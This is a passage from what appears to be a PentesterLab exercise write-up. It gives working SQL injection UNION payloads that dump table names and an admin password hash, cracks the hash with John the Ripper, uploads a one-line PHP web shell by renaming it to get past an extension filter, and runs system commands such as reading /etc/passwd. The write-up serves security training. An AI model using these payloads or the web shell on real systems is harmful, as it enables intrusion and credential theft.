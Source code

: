 To continue, we need to know the name of every column and table within the database. For this, we'll query the meta-tables. We can either run these requests separately using `id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables` for table names and `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns` for column names. However, we can also combine the two into a much more readable format using the `concat` keyword and using a separator char in our query like `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns` which will give us an ordered list of every table, and the columns contained in said table. If we scroll all the way to the bottom of the page, we'll see the entries for the `users` table, and corresponding columns, `users:id`, `users:login`, and `users:password`.

We'll now run a query to retrieve the data from the `users:login` and `users:password` columns using `1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;` which will return all the users and associated hashed passwords in the `users` table, in this case `admin:8efe310f9ab3efeae8d410a8e0166eb2`.

Now in order to login as the `admin` user, we need to crack the hash. In some cases, if it's a common password, we may be able to simply google the hash and find the clear-text value on the web. 

Alternatively, we can use `john-the-ripper` to crack the hash. We'll need to copy the username:hash combo into a local file in the proper format, with the username and hashed password on a single line, separated by a colon ('`:`'). The content of our file should look like;
```
admin:8efe310f9ab3efeae8d410a8e0166eb2
```
Often times web applications will use the `MD5` algorithm to hash passwords, however we're told this challenge is using the `raw-MD5` format. We'll use the command `john adminpass.txt --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt` (proper cracking failed with other wordlists). The output should contain `P4ssword      (admin)`.

With the clear-text credentials, we'll login to the 'Admin' section of the site. We're met with a table of currently uploaded pictures, and the option to upload new ones. 

We'll use the upload capability to upload a `PHP` web-shell;
```PHP
<?php
  system($_GET['cmd']);
?>
```
There are many other options for web-shells with more capability, but the simple one above will serve our needs here. Save it into a local file with a `.php` extension, then select and upload the file onto the server from the upload page.

Unfortunately, the server detects the `.php` extension and blocks the upload. To bypass this, we'll change the file name to `shell.php.test`, the file name check only applies to the last characters of the name in this case, so we can bypass the filter, and the server will still consider it a valid `.php` file because it has no idea how to handle a `.test` file. 

Once the file is uploaded, if we click the new link to our file, we're given a `libcurl.so/show.php?id=6` URL. In order to send commands to our shell, we need to access the file directly. If we view the source of the new page, we can see from the `<img src=` tag the file is uploaded at `admin/uploads/shell.php.test`. If we navigate to `libcurl.so/admin/uploads/shell.php.test`, we get a blank page, which indicates that the server isn't actually executing our `PHP` script. To get around this, we'll go back to the image upload, change the name of our script to `shell.php3`, and then repeat the steps. This time, when we navigate to our file, we get a 'Notice' and 'Warning' indicating 'system() cannot execute a blank command'. Now, we can append `?cmd=` to the end of the URL with the desired unix-system command as our value, i.e. `?cmd=uname -a` to retrieve current kernel information. Every command will be run as a new process, so if we wanted to list the contents of the `/etc` directory, we would not be able to use `cd /etc/` followed by another request for `ls`, we would need to instead use `ls /etc` or something similar. Every command is operating with the same permissions as the `ptl@%` user we found earlier with our `current_user()` `UNION` query. In this case, we can run `cat /etc/passwd` to see every user on the system, but if we try `cat /etc/shadow` we get no output, presumably due to a 'permission denied' error from the command.

In order to complete these challenge, use the given score command with the given UUID, `?cmd=/usr/local/bin/score UUID`, if it executed successfully, the server should respond with text indicating the Exercise is complete.

## CVE-2007-1860 // mod_jk Double-Decoding
[Challenge URL](https://pentesterlab.com/exercises/cve-2007-1860/course)
